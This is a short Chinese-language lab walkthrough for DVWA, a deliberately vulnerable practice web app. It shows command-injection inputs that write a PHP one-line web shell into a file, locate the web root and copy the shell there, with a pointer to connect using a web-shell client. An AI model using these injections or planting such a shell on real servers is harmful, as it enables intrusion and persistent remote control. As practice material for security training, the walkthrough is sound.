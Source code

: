 

* 拿shell
找到 dvwa 目錄後，丟一句話木馬


```cmd=

寫一句話木馬
127.0.0.1 & echo "<?php @eval($_POST[x]); ?>" >> hack.php



發現cmd預設目錄在桌面，所以產生的 hack.php 也在桌面
127.0.0.1 & dir



cmd1 故意報錯因為 ping 太久了
11111 & dir



得到當前路徑
11111 & echo %cd%



找到 DVWA-master 目錄
11111 & dir | find "DVWA"


拼接 DVWA 完整路徑
C:\Users\xxx\Desktop\DVWA-master


copy 到dvwa 目錄
11111 & copy hack.php C:\Users\xxx\Desktop\DVWA-master


```

找出木馬的url 就可以用中國蟻劍連接。
<br/>
<br/>





編碼問題，有時 cmd 輸出的編碼環境跟 web 編碼不一樣會出現亂碼，可以試試看這招:

* cmd 輸入 chcp
我這裡顯示 active code page: 932

* 查詢 active code page: 932
 https://learn.microsoft.com/en-us/windows/win32/intl/code-page-identifiers
